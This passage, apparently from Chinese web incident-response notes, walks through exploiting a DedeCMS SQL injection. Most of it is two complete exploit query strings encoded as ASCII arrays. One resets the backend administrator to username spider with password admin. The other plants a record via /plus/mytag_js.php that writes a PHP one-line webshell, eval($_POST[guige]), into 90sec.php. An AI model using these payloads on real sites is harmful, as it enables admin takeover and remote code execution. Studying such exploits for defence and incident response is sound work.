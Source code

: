 修改后台管理员为：用户名spider，密码admin。

（3）对应的EXP:

```
？open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=97&arrs2[]=100&arrs2[]=109&arrs2[]=105&arrs2[]=110&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=117&arrs2[]=115&arrs2[]=101&arrs2[]=114&arrs2[]=105&arrs2[]=100&arrs2[]=96&arrs2[]=61&arrs2[]=39&arrs2[]=115&arrs2[]=112&arrs2[]=105&arrs2[]=100&arrs2[]=101&arrs2[]=114&arrs2[]=39&arrs2[]=44&arrs2[]=32&arrs2[]=96&arrs2[]=112&arrs2[]=119&arrs2[]=100&arrs2[]=96&arrs2[]=61&arrs2[]=39&arrs2[]=102&arrs2[]=50&arrs2[]=57&arrs2[]=55&arrs2[]=97&arrs2[]=53&arrs2[]=55&arrs2[]=97&arrs2[]=53&arrs2[]=97&arrs2[]=55&arrs2[]=52&arrs2[]=51&arrs2[]=56&arrs2[]=57&arrs2[]=52&arrs2[]=97&arrs2[]=48&arrs2[]=101&arrs2[]=52&arrs2[]=39&arrs2[]=32&arrs2[]=119&arrs2[]=104&arrs2[]=101&arrs2[]=114&arrs2[]=101&arrs2[]=32&arrs2[]=105&arrs2[]=100&arrs2[]=61&arrs2[]=49&arrs2[]=57&arrs2[]=32&arrs2[]=35
```

执行EXP后，相应后台数据库表变为如下：

![img](https://bypass007.github.io/Emergency-Response-Notes/Web/image/8-5.png)

（4）因此相应后台登录用户变为spider密码admin

**利用方式二：通过/plus/mytag_js.php文件生成一句话木马php**

（1）如：构造如下注入SQL语句：

`cfg_dbprefixmytag(aid,expbody,normbody) VALUES(9013,@\','{dede:php}file_put_contents(''90sec.php'',''<?php eval($_POST[guige]);?>'');{/dede:php}') # @\'``

（2）对应的EXP:

```
?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=116&arrs2[]=97&arrs2[]=103&arrs2[]=96&arrs2[]=32&arrs2[]=40&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=44&arrs2[]=101&arrs2[]=120&arrs2[]=112&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=44&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=41&arrs2[]=32&arrs2[]=86&arrs2[]=65&arrs2[]=76&arrs2[]=85&arrs2[]=69&arrs2[]=83&arrs2[]=40&arrs2[]=57&arrs2[]=48&arrs2[]=49&arrs2[]=51&arrs2[]=44&arrs2[]=64&arrs2[]=96&arrs2[]=92&arrs2[]=39&arrs2[]=96&arrs2[]=44&arrs2[]=39&arrs2[]=123&arrs2[]=100&arrs2[]=101&arrs2[]=100&arrs2[]=101&arrs2[]=58&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=125&arrs2[]=102&arrs2[]=105&arrs2[]=108&arrs2[]=101&arrs2[]=95&arrs2[]=112&arrs2[]=117&arrs2[]=116&arrs2[]=95&arrs2[]=99&arrs2[]=111&arrs2[]=110&arrs2[]=116&arrs2[]=101&arrs2[]=110&arrs2[]=116&arrs2[]=115&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=57&arrs2[]=48&arrs2[]=115&arrs2[]=101&arrs2[]=99&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=103&arrs2[]=117&arrs2[]=105&arrs2[]=103&arrs2[]=101&arrs2[]=93&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=123&arrs2[]=47&arrs2[]=100&arrs2[]=101&arrs2[]=100&arrs2[]=101&arrs2[]=58&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=125&arrs2[]=39&arrs2[]=41&arrs2[]=32&arrs2[]=35&arrs2[]=32&arrs2[]=64&arrs2[]=96&arrs2[]=92&arrs2[]=39&arrs2[]=96
```

（3）执行EXP后，将向数据库表dede_mytag中插入一条记录，

![img](https://bypass007.github.io/Emergency-Response-Notes/Web/image/8-6.png)
